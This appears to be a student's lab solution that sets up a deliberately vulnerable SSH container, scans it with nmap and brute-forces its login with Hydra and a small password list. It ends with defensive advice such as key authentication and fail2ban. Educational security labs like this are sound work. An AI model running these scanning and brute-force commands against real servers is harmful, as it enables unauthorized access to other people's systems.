



# LAB03 Solution

## 0. Setting up the Docker SSH target

```bash
sudo apt update && sudo apt install -y docker.io
wget https://raw.githubusercontent.com/rpritr/KV-Vaje/refs/heads/main/lab09/dvws/Dockerfile
docker build -t dvws .
sudo docker run -d -p 2222:22 --name dvws-ssh dvws
sudo docker inspect dvws-ssh | grep IPAddress
```

The container's internal IP was `172.17.0.2`, used as `<target_ip>` throughout the exercise.

---

## 1. Scanning for open ports with Nmap

```bash
sudo nmap -sS -sV -O -p- 172.17.0.2
```

Results:
- **Port 22/tcp** — open, OpenSSH 8.9p1 Ubuntu 3ubuntu0.14 (Ubuntu Linux; protocol 2.0)
- **65534 ports** — closed
- **OS detected:** Linux 4.15 – 5.19, general purpose device



---

## 2. Verifying the SSH connection

```bash
ssh testuser@172.17.0.2 -p 22
```

Password: `test123`

The connection was successful. The server identified itself as Ubuntu 22.04.5 LTS.



---

## 3. Creating the password list and running Hydra

```bash
echo -e "password\n123456\ntest123\nadmin" > passwords.txt
hydra -l testuser -P passwords.txt -s 22 172.17.0.2 ssh
```

Hydra tried all 4 passwords and found the correct one:

```
[22][ssh] host: 172.17.0.2   login: testuser   password: test123
1 of 1 target successfully completed, 1 valid password found
```



---

## 4. Reflection and Analysis

**How would you protect the SSH server from brute-force attacks?**

The most effective immediate measure is disabling password authentication entirely and requiring public-key authentication instead. A stolen or guessed password then gives an attacker nothing. In addition, tools like `fail2ban` can automatically block an IP after a configurable number of failed login attempts, making online brute-force attacks impractical even if passwords are used.

**What additional measures would you recommend?**

- **Firewall (e.g. `ufw`):** restrict SSH access to known IP ranges only, so the port is not reachable from the public internet at all.
- **Non-standard port:** moving SSH off port 22 eliminates most automated scanning noise, though it is not a security control on its own.
- **Login rate limiting:** `sshd` options such as `MaxAuthTries` and `LoginGraceTime` slow down manual or scripted attacks.
- **Multi-factor authentication:** even if a private key is compromised, a second factor (e.g. TOTP via `libpam-google-authenticator`) prevents access.
- **Principle of least privilege:** restrict which users are allowed to log in via SSH (`AllowUsers` in `sshd_config`) and never permit root login directly.

**How does the result change if we use a very strong password?**

A dictionary or small wordlist attack like the one performed here would fail immediately — `test123` appeared in the list, so it was found in seconds. With a long, random password (e.g. 20+ characters, mixed character classes) that does not appear in any wordlist, an online brute-force attack becomes computationally infeasible: the search space is too large to exhaust over a network connection. This is why password length and randomness matter more than complexity rules.
